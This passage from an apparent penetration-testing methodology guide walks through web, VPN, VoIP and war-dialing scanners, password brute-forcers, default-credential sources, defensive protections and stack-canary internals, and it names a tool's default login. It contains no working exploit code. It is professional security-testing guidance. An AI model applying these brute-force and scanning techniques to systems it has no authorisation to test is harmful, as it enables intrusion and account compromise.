presents the option to export the Scan or Scan Details.

''' `Screenshot Here <:File:Penetration_Testing_Execution_110.png>`__
'''

From the Export Scan Details window we need to choose the Full from the
Details option. This will ensure that we obtain the most comprehensive
report possible. Since this is only available in XML format, the only
option we have left to choose is to scrub data. If you want to ensure
that SSN, and Credit Card data is scrubbed then select these options. If
you choose to scrub IP address information then the exported data will
be useless for our purposes. Click Export to continue. Choose the file
location to save the exported data.

**Web Service Assessment Scan**

The first scan that is performed with WebInspect is the Web Site
Assessment Scan. WebInspect makes use of the New Web Site Assessment
Wizard to setup the assessment scans.

''' `Screenshot Here <:File:Penetration_Testing_Execution_111.png>`__
'''

When you start the New wizard, the Web Service Scan Wizard window
appears. The options displayed within the wizard windows are extracted
from the WebInspect default settings. The important thing to note is
that any changes you make will be used for this scan only.

In the Scan Name box, enter a name or a brief description of the scan.
Next you need to select one an assessment mode. The options available
are Crawl Only, and Crawl and Audit. The "Crawl Only" option completely
maps a site's tree structure. It is possible after a crawl has been
completed, to click "Audit" to assess an application's vulnerabilities.
"Crawl and Audit" maps the site's hierarchical data structure, and
audits each page as it is discovered.

''' `Screenshot Here <:File:Penetration_Testing_Execution_112.png>`__
'''

Once you have selected the assessment mode, you will need to select the
location of the WSDL file. WSDL is an XML format for describing network
services as a set of endpoints operating on messages containing either
document-oriented or procedure-oriented information. Once you have
selected to appropriate options, click Next to continue.

''' `Screenshot Here <:File:Penetration_Testing_Execution_113.png>`__
'''

At this point the scan has been properly configured. There is an option
to save the scan settings for later use. Click Scan to exit the wizard
and begin the scan.

As soon as you start a Web Service Assessment, WebInspect displays in
the Navigation pane an icon depicting each session. It also reports
possible vulnerabilities on the Vulnerabilities tab and Information tab
in the Summary pane. If you click a URL listed in the Summary pane, the
program highlights the related session in the Navigation pane and
displays its associated information in the Information pane. The
relative severity of a vulnerability listed in the Navigation pane is
identified by its associated icon.

''' `Screenshot Here <:File:Penetration_Testing_Execution_114.png>`__
'''

When conducting or viewing a scan, the Navigation pane is on the left
side of the WebInspect'' ''window. It includes the Site, Sequence,
Search, and Step Mode buttons, which determines view presented.

When conducting or viewing a scan, the Information pane contains three
collapsible information panels and an information display area. Select
the type of information to display by clicking on an item in one of
three information panels in the left column.

The Summary pane has five tabs: Vulnerabilities, Information, Best
Practices, Scan Log, and Server Information. The Vulnerabilities Tab
lists all vulnerabilities discovered during an audit. The Information
Tab lists information discovered during an assessment or crawl. These
are not considered vulnerabilities, but simply identify interesting
points in the site or certain applications or Web servers. The Best
Practices Tab lists issues detected by WebInspect that relate to
commonly accepted best practices for Web development. Items listed here
are not vulnerabilities, but are indicators of overall site quality and
site development security practices (or lack thereof).

The Scan Log Tab is used to view information about the assessment. For
instance, the time at which certain auditing was conducted against the
target. Finally, the Server Information Tab lists items of interest
pertaining to the server.

''' `Screenshot Here <:File:Penetration_Testing_Execution_115.png>`__
'''

The final step is to export the results for further analysis. To export
the results of the analysis to an XML file, click File, then Export.
This presents the option to export the Scan or Scan Details.

''' `Screenshot Here <:File:Penetration_Testing_Execution_116.png>`__
'''

From the Export Scan Details window we need to choose the Full from the
Details option. This will ensure that we obtain the most comprehensive
report possible. Since this is only available in XML format, the only
option we have left to choose is to scrub data. If you want to ensure
that SSN, and Credit Card data is scrubbed then select these options. If
you choose to scrub IP address information then the exported data will
be useless for our purposes. Click Export to continue. Choose the file
location to save the exported data.

IBM AppScan


IBM Rational AppScan automates application security testing by scanning
applications, identifying vulnerabilities and generating reports with
recommendations to ease remediation. This tutorial will apply to the
AppScan Standard Edition which is a desktop solution to automate Web
application security testing. It is intended to be use by small security
teams with several security testers.

To ensure APPScan has the latest updates you should click update on the
toolbar menu. This will check the IBM servers for updates. Internet
access is required.

The simplest way to configure a scan is to use the Configuration Wizard.
You can access the Configuration Wizard by clicking “New” on the File
menu. You will be presented with the “New Scan” dialog box. Enable or
disable the “Configuration Wizard” by checking the box.

You can then choose what type of scan you wish to perform. The default
is a Web Application Scan.

You then have to enter the starting URL for the web application. Other
options on that screen include choosing Case-Sensitivity path for
Unix\\Linux systems, adding additional servers and domains and enabling
proxy and platform authentication option. Uncheck the case-sensitivity
path option if you know all the systems are windows as it can help
reduce the scan time.

If the web application requires authentication then there are several
options to choose from. Recorded allows you to record the login
procedure so that AppScan can perform the login automatically. Prompt
will prompt with the login screen during the scan when a login is
required. Automatic can be used in web applications that only require a
username and password. An important option is the “I want to configure
In-Session detection options” if anything other they “None” is chosen.
This option automatically detects if the web application is out of
session. AppScan with automatically configure this feature but if it’s
not correct scan results will be unreliable.

Next you will be asked to choose a test policy. There are various
built-in policies and each have various inclusions and exclusions. You
can also create a custom policy.

By default AppScan tests the login and logout pages. This is enabled
with the “Send tests on login and logout pages” option. Some
applications have safeguards that could lockout the test account and
prevent a scan from completing. You need monitor the testing logs to
ensure login is not failing. AppScan also deletes previous session
tokens before testing login pages. You may need to disable this option
if a valid session token is required on the login pages. This can
disabled by unchecking the “Clear session identifiers before testing
login pages” option

You have now completed the scan configuration and will be prompted to
start the scan. By default AppScan will start a full scan of the
application. To ensure full coverage of the application a Manual Explore
of the application is preferred. With this option AppScan with provide
you with a browser window and you can access the application to explore
every option and feature available. Once the full application has been
explored you can close the browser and AppScan will add the discovered
pages its list for testing. You can then start the full scan (Using
ScanFull Scan on the menu bar) and AppScan will automatically scan the
application.

Web Directory Listing/Bruteforcing


DirBuster is a java application that is designed to brute force web
directories and files names. DirBuster attempts to find hidden or
obfuscated directories, but as with any bruteforcing tool, it is only as
good as the directory and file list utilized. For that reason, DirBuster
has 9 different lists.

`Screenshot Here <:File:Penetration_Testing_Execution_117.png>`__

Webserver Version/Vulnerability Identification


The ability to identify the Webserver version is critical to identify
vulnerabilities specific to a particular installation. This information
should have been gathered as part of an earlier phase.

NetSparker (Windows)
''''''''''''''''''''

NetSparker is windows based Web Application Scanner. This scanner tests
for all common types of web application security flaws. This scanner
allows the user to enter NTLM, Forms based and certificate based
credentials. NetSparker boasts its ability to confirm the findings it
presents to the user. NetSparker is an inexpensive Web Application
Scanner.

When launching NetSparker, the user is presented with the following
screen, which has tabs for the Scan Settings, Authentication and
Advanced Settings.

NetSparker allows the user to enter credentials for Forms based
Authentication in the following dialogue.

Once credentials have been entered, NetSparker presents those to the web
application in a mini-browser view as seen below.

The below confirms that NetSparker is able to use the supplied
credentials to login to the application.

In an effort to make sure that NetSparker knows when it has logged
itself out of the web application, the user is able to specify the
logged in and logged out conditions.

The final step of the process confirms the settings are configured
correctly.

NetSparker offers five different methods to start the scan as seen
below. These include Start Scan, Crawl and Wait, Manual Crawl (Proxy
Mode), Scan Imported Links Only and Schedule Scan.

The scan starts with a crawl of the website and classifies the potential
security issues as seen below.

The next phase is attacking the website. This begins to show identified
vulnerabilities as shown in this screenshot.

Each finding can be shown in a Browser View as shown in this screenshot.

The vulnerability can also be displayed in an HTTP Request / Response
format as seen in this screenshot.

To check the status of the scan, click on View and select Dashboard.

Also included is the Vulnerability Chart

 Reporting options include PDF, HTML, CSV and XML formats.

Specialized Vulnerability Scanners
''''''''''''''''''''''''''''''''''

Virtual Private Networking (VPN)


Virtual Private Networking (VPN) involves "tunneling" private data
through the Internet. The four most widely known VPN "standards" are
Layer 2 Forwarding (L2F), IP Security (IPSec), Point-to-Point Tunneling
Protocol (PPTP), and Layer 2 Tunneling Protocol (L2TP). VPN servers
generally will not be detected by a port scans as they don't listen on
TCP ports, so a TCP port scan won't find them. In addition, they won't
normally send ICMP unreachable messages, so a UDP port scans more than
likely won't find them. This is why we need specialized scanners to find
and identify them.

**ike-scan**

ike-scan is a command-line IPsec VPN scanning, fingerprinting and
testing tool that uses the IKE protocol to discover, fingerprint and
test IPsec VPN servers. Ike-scan sends properly formatted IKE packet to
each of the address you wish to scan and displays the IKE responses that
are received. While ike-scan has a dozens of options, we will only cover
the basics here.

`Screenshot Here <:File:Penetration_Testing_Execution_118.png>`__

Using ike-scan to actually perform VPN discovery is relatively straight
forward. Simply give it a range and it will attempt to identify

`Screenshot Here <:File:Penetration_Testing_Execution_119.png>`__

IPv6


The THC-IPV6 Attack Toolkit is a complete set of tools to scan for
inherent protocol weaknesses of IPv6 deployments. Implementation6 which
performs various implementation checks on IPv6.

`Screenshot Here <:File:Penetration_Testing_Execution_120.png>`__

Exploit6 is another tool from the THC-IPV6 Attack Toolkit which can test
for known ipv6 vulnerabilities.

`Screenshot Here <:File:Penetration_Testing_Execution_121.png>`__

`Screenshot Here <:File:Penetration_Testing_Execution_122.png>`__

War Dialing


War dialing is process of using a modem to automatically scan a list of
telephone numbers, usually dialing every number in a local area code to
search for computers, Bulletin board systems and fax machines.

**WarVOX**

WarVOX is a suite of tools for exploring, classifying, and auditing
telephone systems. Unlike normal wardialing tools, WarVOX works with the
actual audio from each call and does not use a modem directly. This
model allows WarVOX to find and classify a wide range of interesting
lines, including modems, faxes, voice mail boxes, PBXs, loops, dial
tones, IVRs, and forwarders. WarVOX provides the unique ability to
classify all telephone lines in a given range, not just those connected
to modems, allowing for a comprehensive audit of a telephone system.
VoIP

VoIP networks rely on the network infrastructure that just simply
targeting phones and servers is like leaving half the scope untouched.
The intelligence gathering phase should have resulted in identify all
network devices, including routers and VPN gateways, web servers, TFTP
servers, DNS servers, DHCP servers, RADIUS servers, and firewalls. Note:
The default username is admin with a password of warvox.

`Screenshot Here <:File:Penetration_Testing_Execution_122.png>`__

**iWar**

iWar is a War dialer written for Linux, FreeBSD, OpenBSD, etc.

`Screenshot Here <:File:Penetration_Testing_Execution_123.png>`__

**Plain Analog Wardialer (PAW) / Python Advanced Wardialing System
(PAWS)**

PAW / PAWS is a wardialing software in python. It is designed to scan
for ISDN (PAWS only) and newer analog modems.

`Screenshot Here <:File:Penetration_Testing_Execution_124.png>`__

**SIPSCAN**

SIPSCAN uses REGISTER, OPTIONS and INVITE request methods to scan for
live SIP extensions and users. SIPSCAN comes with a list of usernames
(users.txt) to brute force. This should be modified to include data
collected during earlier phases to target the specific environment.

`Screenshot Here <:File:Penetration_Testing_Execution_125.png>`__

**SIPSAK**

SIPSAK is tool that can test for SIP enabled applications and devices
using the OPTION request method only.

`Screenshot Here <:File:Penetration_Testing_Execution_126.png>`__

**SVMAP**

SVMAP is a part of the SIPVicious suite and it can be used to scan
identify and fingerprint a single IP or a range of IP addresses. Svmap
allows specifying the method being used such as OPTIONS, INVITE, and
REGISTER.

`Screenshot Here <:File:Penetration_Testing_Execution_127.png>`__

Passive Testing
^^^^^^^^^^^^^^^

Passive Testing is exactly what it sounds like. Testing for
vulnerabilities but doing so in a passive manner. This is often best
left to automated tools, but it can be accomplished by manually methods
as well.

Automated Tools
'''''''''''''''

Traffic Monitoring


Traffic Monitoring is a passive mechanism for gathering further
information about the targets. This can be helpful in determining the
specifics of an operating system or network device. There are times when
active fingerprinting may indicate, for example, an older operating
system. This may or may not be the case. Passive fingerprinting is
essentially a "free" way to ensure that the data you are reporting is as
accurate as possible.

**P0f**

P0f is an awesome passive fingerprinting tool. P0f can identify the
operating system on based upon machines you connect to and that you
connect to as well as machines that you cannot connect to. Also, it can
fingerprint machines based upon the communications that your interfaces
can observe.

`Screenshot Here <:File:Penetration_Testing_Execution_128.png>`__

Wireshark
'''''''''

Wireshark is a free and open-source packet analyzer. It is used for
network troubleshooting, analysis, software and communications protocol
development, and education. Originally named Ethereal, in May 2006 the
project was renamed Wireshark due to trademark issues.

Wireshark is cross-platform, using the GTK+ widget toolkit to implement
its user interface, and using pcap to capture packets; it runs on
various Unix-like operating systems including Linux, Mac OS X, BSD, and
Solaris, and on Microsoft Windows.

`Screenshot Here <:File:Penetration_Testing_Execution_129.png>`__

Tcpdump
'''''''

Tcpdump is a common packet analyzer that runs under the command line. It
allows the user to intercept and display TCP/IP and other packets being
transmitted or received over a network to which the computer is
attached. Tcpdump works on most Unix-like operating systems: Linux,
Solaris, BSD, Mac OS X, HP-UX and AIX among others. In those systems,
tcpdump uses the libpcap library to capture packets.

There is also a port of tcpdump for Windows called WinDump; this uses
WinPcap, which is a port of libpcap to Windows.

`Screenshot Here <:File:Penetration_Testing_Execution_130.png>`__

Metasploit Scanners
'''''''''''''''''''

Metasploit Unleashed


The `Metasploit
Unleashed <http://www.offensive-security.com/metasploit-unleashed/Vulnerability_Scanning>`__
course has several tutorials on performing vulnerability scanning
leveraging the Metasploit Framework.

Vulnerability Validation
~~~~~~~~~~~~~~~~~~~~~~~~

Public Research
^^^^^^^^^^^^^^^

A product of the vast amount of security research is the discovery of
vulnerabilities and associated Proof of Concept (PoC) and/or exploit
code. The results from the vulnerability identification phase must be
individually validated and where exploits are available, these must be
validated. The only exception would be an exploit that results in a
Denial of Service (DoS). This would need to be included in the scope to
be considered for validation. There are numerous sites that offer such
code for download that should be used as part of the Vulnerability
Analysis phase.

-  Exploit-db - http://www.exploit-db.com
-  Security Focus - http://www.securityfocus.com
-  Packetstorm - http://www.packetstorm.com
-  Security Reason - http://www.securityreason.com
-  Black Asylum - http://www.blackasylum.com/?p=160

Common/default passwords
''''''''''''''''''''''''

| Attempt to identify if a device, application, or operating system is
  vulnerable to a default credential attack is really as simple as
  trying to enter in known default passwords. Default passwords can be
  obtained from the following websites:
| \* http://www.phenoelit-us.org/dpl/dpl.html

-  http://cirt.net/passwords
-  http://www.defaultpassword.com
-  http://www.passwordsdatabase.com
-  http://www.isdpodcast.com/resources/62k-common-passwords/

Establish target list
^^^^^^^^^^^^^^^^^^^^^

Identifying all potential targets is critical to penetration testing.
Properly established target lists ensure that attacks are properly
targeted. If the particular versions of software running in the
environment can be identified, the tester is dealing with a known
quantity, and can even replicate the environment. A properly defined
target list should include a mapping of OS version, patch level
information. If known it should include web application weaknesses,
lockout thresholds and weak ports for attack.

Mapping Versions
''''''''''''''''

Version checking is a quick way to identify application information. To
some extent, versions of services can be fingerprinted using nmap, and
versions of web applications can often be gathered by looking at the
source of an arbitrary page.

Identifying Patch Levels
''''''''''''''''''''''''

To identify the patch level of services internally, consider using
software which will interrogate the system for differences between
versions. Credentials may be used for this phase of the penetration
test, provided the client has acquiesced. Vulnerability scanners are
particularly effective at identifying patch levels remotely, without
credentials.

Looking for Weak Web Applications
'''''''''''''''''''''''''''''''''

Identifying weak web applications can be a particularly fruitful
activity during a penetration test. Things to look for include OTS
applications that have been misconfigured, OTS application which have
plugin functionality (plugins often contain more vulnerable code than
the base application), and custom applications. Web application
fingerprinters such as WAFP can be used here to great effect.

Identify Weak Ports and Services
''''''''''''''''''''''''''''''''

Identifying weak ports can be done using banner grabbing, nmap and
common sense. Many ports and services will lie, or mislead about the
specifics of their version.

Identify Lockout threshold
''''''''''''''''''''''''''

Identifying the lockout threshold of an authentication service will
allow you to ensure that your bruteforce attacks do not intentionally
lock out valid users during your testing. Identify all disparate
authentication services in the environment, and test a single, innocuous
account for lockout. Often 5 - 10 tries of a valid account is enough to
determine if the service will lock users out.

Attack Avenues
~~~~~~~~~~~~~~

Attack avenues focus on identifying all potential attack vectors that
could be leveraged against a target. This is much more detailed than
simply looking at the open or filtered ports, but evaluates the
Footprinting information and automated results in an effort to create an
attack tree.

Creation of Attack Trees
^^^^^^^^^^^^^^^^^^^^^^^^

Attack trees are conceptual diagrams of threats on target systems and
should include all possible attack methods to reach those threats.

Identify protection mechanisms
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

There is no magic bullet for detecting and subverting Network or Host
based protection mechanisms. It takes skill and experience. This is
beyond the scope of this document, which only lists the relevant
protection mechanisms and describes what they do.

Network protections
'''''''''''''''''''

"Simple" Packet Filters


Packet filters are rules for classifying packets based on their header
fields. Packet classification is essential to routers supporting
services such as quality of service (QoS), virtual private networks
(VPNs), and firewalls.

Traffic shaping devices


Traffic shaping is the control of computer network traffic in order to
optimize or guarantee performance, improve latency, and/or increase
usable bandwidth for some kinds of packets by delaying other kinds of
packets that meet certain criteria. During penetration test traffic
shaping can also control the volume of traffic being sent into a network
in a specified period, or the maximum rate at which the traffic is sent.
For these reasons; traffic shaping is important to detect at the network
edges to avoid packet dropping and packet marking.

Data Loss Prevention (DLP) systems


Data Loss Prevention (DLP) refers to systems that identify, monitor, and
protect data in use, data in motion, and data at rest via content
inspection and contextual analysis of activities (attributes of
originator, data object, medium, timing, recipient/destination and so
on). DLP systems are analogous to intrusion-prevention system for data.

Host based protections
''''''''''''''''''''''

Host-based protections usually revolve around an installed software
package which monitors a single host for suspicious activity by
analyzing events occurring within that host. The majority of Host-based
protections utilize one of three detection methods: signature-based,
statistical anomaly-based and stateful protocol analysis.

Stack/heap protections


Numerous tools are available that can monitor the host to provide
protections against buffer overflows. Microsoft's Data Execution
Prevention mode is an example that is designed to explicitly protect the
pointer to the SEH Exception Handler from being overwritten.

Whitelisting


Whitelisting provides a list of entities that are being provided a
particular privilege, service, mobility, access, or recognition. An
emerging approach in combating attacks by viruses and malware is to
whitelist software which is considered safe to run, blocking all others

AV/Filtering/Behavioral Analysis


Behavioral analysis works from a set of rules that define a program as
either legitimate, or malicious. Behavioral analysis technology monitors
what an application or piece of code does and attempts to restrict its
action. Examples of this might include applications trying to write to
certain parts of a system registry, or writing to pre-defined folders.
These and other actions would be blocked, with the actions notified to
the user or administrator.

Application level protections
'''''''''''''''''''''''''''''

Exploitation
------------

Precision strike
~~~~~~~~~~~~~~~~

Additional information on exploitation can be found at the `Metasploit
Unleashed <http://www.offensive-security.com/metasploit-unleashed/Exploit_Development>`__
course.

Countermeasure Bypass
^^^^^^^^^^^^^^^^^^^^^

<Contribution Needed>

AV
''

<Contribution Needed>

-  Encoding
-  Packing
-  Whitelist Bypass
-  Process Injection
-  Purely Memory Resident

Human
'''''

<Contribution Needed>

HIPS
''''

<Contribution Needed>

DEP
'''

<Contribution Needed>

ASLR
''''

<Contribution Needed>

VA + NX (Linux)
'''''''''''''''

<Contribution Needed>

w^x (OpenBSD)
'''''''''''''

<Contribution Needed>

WAF
'''

A WAF (Web application firewall) is a firewall which can be installed in
front of (network topology speaking) a web application. The WAF will
analyze each request and look for common web attacks such as Cross Site
Scripting and SQLinjection. Like most AV scanners, a blacklisting
mechanism is often used to find these potentially malicious HTTP
requests (often regex). Since these WAFs are using this blacklisting
technique, multiple papers exist on bypassing these types of devices.

Stack Canaries
''''''''''''''

In order to understand the use of the Stack Canaries, one needs to
understand the fundamental flaw of buffer overflows. A buffer overflow
happens when an application fails to properly verify the length of the
input received with the length of the buffer in memory to which this
data is copied. Due to the way the stack is build, and the way the data
is entered on the stack, the input received could be used to overwrite
the EIP (extended instruction pointer, this is used by the application
to know where the application came from prior to copying the input to
the buffer). When an attacker controls the EIP, the execution of the
application can be altered in such a way that the attacker has full
control of the application. A potential fix is by adding a "cookie" or
stack canary right after the buffer on the stack. When the application
wants to return, the value of the stack canary is verified. If this
value has been altered, the program will ignore the EIP and crash
therefore making the buffer overflow ineffective.

Every operating system calculates a different cookie.

Microsoft Windows


The cookie in Windows is added by Visual Studio. One of the options when
compiling an application is /GS. The option is enabled by default. The
cookie is calculated using a few process specific variables. Below is a
representative code of how this cookie is calculated.

.. code:: c

    void generate_security_cookie() {
    int defaultval1 = 0xFFFF0000;
    int defaultval2 = 0xBB40E64E; // Hex value of PI without comma...

    int result = 0;
    int resultcomp = 0;

    FILETIME filetimestruct ;
    GetSystemTimeAsFileTime(&filetimestruct);
    LARGE_INTEGER perfcounter;
    QueryPerformanceCounter(&perfcounter);

    int tickc = GetTickCount();
    int threadid = GetCurrentThreadId();
    int processid = GetCurrentProcessId();

    result = result ^ filetimestruct.dwHighDateTime;
    result = result ^ filetimestruct.dwLowDateTime;
    result = result ^ threadid;
    result = result ^ processid;
    result = result ^ tickc;
    result = result ^ perfcounter.HighPart;
    result = result ^ perfcounter.LowPart;

    if (result == defaultval2) {
        printf("Wow, what are they odd of getting the same value as the beginning");
        result = 0xBB40E64E;
    } else {
        if (!(result & defaultval1)) {
            int temp = (result | 0x4711) << 16;
            result |= temp;
        }
    }
    resultcomp = ~result;

As you can see, some of these values are not hard to figure out. Except
for maybe the LowDateTime and the performance counter. An excellent
paper has been written concerning this lack of entropy. More information
can be found in that paper here (`Exploiting the otherwise
non-exploitable <http://j00ru.vexillium.org/?p=690>`__)

Linux


As in Windows, the somewhat default compiler, gcc, adds the code for the
stack canarie. This code can be found in the file libssp/ssp.c

.. code:: c

    static void __attribute__ ((constructor))
    __guard_setup (void)
    {
      unsigned char *p;
      int fd;

      if (__stack_chk_guard != 0)
        return;

      fd = open ("/dev/urandom", O_RDONLY);
      if (fd != -1)
        {
          ssize_t size = read (fd, &__stack_chk_guard,
                               sizeof (__stack_chk_guard));
          close (fd);
          if (size == sizeof(__stack_chk_guard) && __stack_chk_guard != 0)
            return;
        }

      /* If a random generator can't be used, the protector switches the guard
         to the "terminator canary".  */
      p = (unsigned char *) &__stack_chk_guard;
      p[sizeof(__stack_chk_guard)-1] = 255;
      p[sizeof(__stack_chk_guard)-2] = '\n';
      p[0] = 0;
    }

It is known that some older versions of gcc do not use the urandom
device in order to create a new cookie. They use a preset cookie value
(a mix of unprintable characters such as 00 0A 0D and FF). Gcc will
compile an application with stack canaries by default.

Problems with the implementation on Linux: On a linux machine, there are
a few different ways of creating a thread. One of them is called fork().
When using fork to create a new thread, the application will "quickly"
create a new thread which will reuse the calculated cookie for each new
"fork"-ed thread. If a buffer overflow would exist in this forked
thread, an attacker could bruteforce the stack canarie. Once again a
great article describing this attack can be found here (`Scraps of notes
on remote stack overflow
exploitation <http://www.phrack.org/issues.html?issue=67&id=13>`__)

MAC OS


Disabled by default. Contribution required.

Customized Exploitation
~~~~~~~~~~~~~~~~~~~~~~~

Fuzzing
^^^^^^^

Fuzzing is the process of attempting to discover security
vulnerabilities by sending random input to an application. If the
program contains a vulnerability that can leads to an exception, crash
or server error (in the case of web apps), it can be determined that a
vulnerability has been discovered. Fuzzers are generally good at finding
buffer overflow, DoS, SQL Injection, XSS, and Format String bugs.
Fuzzing falls into two categories: Dumb Fuzzing and Intelligent Fuzzing.

Dumb Fuzzing
^^^^^^^^^^^^

Dumb Fuzzing usually consists of simple modifications to legitimate
data, that is then fed to the target application. In this case, the
fuzzer is very easy to write and the idea is to identify low hanging
fruit. Although not an elegant approach, dumb fuzzing can produce
results, especially when a target application has not been previously
tested. FileFuzz is an example of a Dumb Fuzzer. FileFuzz is a Windows
based file format fuzzing tool that was designed to automate the
launching of applications and detection of exceptions caused by fuzzed
file formats.

`Screenshot Here <:File:Penetration_Testing_Execution_131.png>`__

Intelligent Fuzzing
^^^^^^^^^^^^^^^^^^^

Intelligent Fuzzers are ones that are generally aware of the protocol or
format of the data being tested. Some protocols require that the fuzzer
maintain state information, such as HTTP or SIP. Other protocols will
make use of authentication before a vulnerability is identified. Apart
from providing much more code coverage, intelligent fuzzers tend to cut
down the fuzzing time significantly since they avoid sending data that
the target application will not understand. Intelligent fuzzers are
therefore much more targeted and sometimes they need to be developed by
the security researcher.

Sniffing
^^^^^^^^

A packet analyzer is used to intercept and log traffic passing over the
network. It is considered best practice to utilize a sniffer when
performing exploitation. This ensures that all relevant traffic is
captured for further analysis. This is also extremely useful for
extracting cleartext passwords.

Wireshark
'''''''''

Wireshark is a free and open-source packet analyzer. It is used for
network troubleshooting, analysis, software and communications protocol
development, and education. Originally named Ethereal, in May 2006 the
project was renamed Wireshark due to trademark issues.

Wireshark is cross-platform, using the GTK+ widget toolkit to implement
its user interface, and using pcap to capture packets; it runs on
various Unix-like operating systems including Linux, Mac OS X, BSD, and
Solaris, and on Microsoft Windows.

`Screenshot Here <:File:Penetration_Testing_Execution_132.png>`__

Tcpdump
'''''''

Tcpdump is a common packet analyzer that runs under the command line. It
allows the user to intercept and display TCP/IP and other packets being
transmitted or received over a network to which the computer is
attached. Tcpdump works on most Unix-like operating systems: Linux,
Solaris, BSD, Mac OS X, HP-UX and AIX among others. In those systems,
tcpdump uses the libpcap library to capture packets.

There is also a port of tcpdump for Windows called WinDump; this uses
WinPcap, which is a port of libpcap to Windows.

`Screenshot Here <:File:Penetration_Testing_Execution_133.png>`__

Brute-Force
^^^^^^^^^^^

A brute force attack is a strategy that can in theory be used by an
attacker who is unable to take advantage of any weakness in a system. It
involves systematically checking all possible usernames and passwords
until the correct one is found.

Brutus (Windows)
''''''''''''''''

Brutus is a generic password guessing tool that comes with built-in
routines for attacking

HTTP Basic and Forms-based authentication, among other protocols like
SMTP and

POP3. Brutus can perform both ''dictionary ''and randomly generated
attacks from a given character set.

`Screenshot Here <:File:Penetration_Testing_Execution_134.png>`__

Web Brute (Windows)
'''''''''''''''''''

Web Brute is included with HP WebInspect and is the primary means of
attacking a login form or authentication page, using prepared lists of
user names and passwords.

`Screenshot Here <:File:Penetration_Testing_Execution_135.png>`__

THC-Hydra/XHydra
''''''''''''''''

THC-Hydra (or just Hydra) is a network logon bruteforcer which supports
attacking many different services such as FTP, HTTP, HTTPS, ICQ, IRC,
IMAP, LDAP, MS-SQL, MySQL, NCP, NNTP, Oracle, POP3, pcAnywhere,
PostgreSQL, REXEC, RDP, RLOGIN, RSH, SAP R/3, SIP, SMB, SMTP, SNMP,
SOCKS, SSH, Subversion (SVN), TeamSpeak, Telnet, VNC, VMware Auth
Daemon, and XMPP. It is available in both a command line and GUI
version.

`Screenshot Here <:File:Penetration_Testing_Execution_136.png>`__

`Screenshot Here <:File:Penetration_Testing_Execution_137.png>`__

Medusa
''''''

Medus is another network logon bruteforcer which supports attacking many
different services such as AFP, CVS, FTP, HTTP, IMAP, MS-SQL, MySQL,
NCP, NNTP, Oracle, POP3, pcAnywhere, PostgreSQL, REXEC, RDP, RLOGIN,
RSH, SMB, SMTP, SNMP, SOCKS, SSH, Subversion (SVN), Telnet, VNC, and
VMware Auth Daemon. It is only available in a command line version.

`Screenshot Here <:File:Penetration_Testing_Execution_138.png>`__

Ncrack
''''''

Ncrack is another network logon bruteforcer which supports attacking
many different services such as RDP, SSH, http(s), SMB, pop3(s), FTP,
and telnet. Ncrack was designed using a modular approach, a command-line
syntax similar to Nmap and a dynamic engine that can adapt its behavior
based on network feedback.

`Screenshot Here <:File:Penetration_Testing_Execution_139.png>`__

Routing protocols
^^^^^^^^^^^^^^^^^

Routing protocols specify how routers communicate with each other,
disseminating information that enables them to select routes between any
two nodes on a computer network, the choice of the route being done by
routing algorithms. Each router has a priori knowledge only of networks
attached to it directly. A routing protocol shares this information
first among immediate neighbors, and then throughout the network. This
way, routers gain knowledge of the topology of the network.

Cisco Discovery Protocol (CDP)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The Cisco Discovery Protocol (CDP) is a proprietary Data Link Layer
network protocol developed by Cisco Systems that is implemented in most
Cisco networking equipment. It is used to share information about other
directly connected Cisco equipment, such as the operating system version
and IP address. CDP can also be used for On-Demand Routing, which is a
method of including routing information in CDP announcements so that
dynamic routing protocols do not need to be used in simple networks.

Cisco devices send CDP announcements to the multicast destination
address 01:00:0C:CC:CC:CC, out each connected network interface. These
multicast packets may be received by Cisco switches and other networking
devices that support CDP into their connected network interface. This
multicast destination is also used in other Cisco protocols such as VTP.
By default, CDP announcements are sent every 60 seconds on interfaces
that support Subnetwork Access Protocol (SNAP) headers, including
Ethernet, Frame Relay, and Asynchronous Transfer Mode (ATM). Each Cisco
device that supports CDP stores the information received from other
devices in a table that can be viewed using the show cdp neighbors
command. This table is also accessible via snmp. The CDP table
information is refreshed each time an announcement is received, and the
holdtime for that entry is reinitialized. The holdtime specifies the
lifetime of an entry in the table - if no announcements are received
from a device for a period in excess of the holdtime, the device
information is discarded (default 180 seconds).

The information contained in CDP announcements varies by the type of
device and the version of the operating system running on it. This
information may include the operating system version, hostname, every
address (i.e. IP address) from all protocol(s) configured on the port
where CDP frame is sent, the port identifier from which the announcement
was sent, device type and model, duplex setting, VTP domain, native
VLAN, power draw (for Power over Ethernet devices), and other device
specific information. The details contained in these announcements are
easily extended due to the use of the type-length-value (TLV) frame
format. The tool for attacking CDP is Yersinia.

`Screenshot Here <:File:Penetration_Testing_Execution_140.png>`__

Hot Standby Router Protocol (HSRP)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Hot Standby Router Protocol (HSRP) is a Cisco proprietary redundancy
protocol for establishing a fault-tolerant default gateway, and has been
described in detail in RFC 2281. The Virtual Router Redundancy Protocol
(VRRP) is a standards-based alternative to HSRP defined in IETF standard
RFC 3768. The two technologies are similar in concept, but not
compatible.

The protocol establishes a framework between network routers in order to
achieve default gateway failover if the primary gateway should become
inaccessible, in close association with a rapid-converging routing
protocol like EIGRP or OSPF. By multicasting packets, HSRP sends its
hello messages to the multicast address 224.0.0.2 (all routers) using
UDP port 1985, to other HSRP-enabled routers, defining priority between
the routers. The primary router with the highest configured priority
will act as a virtual router with a pre-defined gateway IP address and
will respond to the ARP request from machines connected to the LAN with
the MAC address 0000.0c07.acXX where XX is the group ID in hex. If the
primary router should fail, the router with the next-highest priority
would take over the gateway IP address and answer ARP requests with the
same mac address, thus achieving transparent default gateway fail-over.
A HSRP Basics Simulation visualizes Active/Standby election and link
failover with Hello, Coup, ARP Reply packets, and timers.

HSRP and VRRP are not routing protocols as they do not advertise IP
routes or affect the routing table in any way.

HSRP and VRRP on some routers have the ability to trigger a failover if
one or more interfaces on the router go down. This can be useful for
dual branch routers each with a single serial link back to the head end.
If the serial link of the primary router goes down, you would want the
backup router to take over the primary functionality and thus retain
connectivity to the head end. The tool for attacking HSRP is Yersinia.

`Screenshot Here <:File:Penetration_Testing_Execution_141.png>`__

Virtual Switch Redundancy Protocol (VSRP)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The Virtual Switch Redundancy Protocol (VSRP) is a proprietary network
resilience protocol developed by Foundry Networks and currently being
sold in products manufactured by both Foundry and Hewlett Packard. The
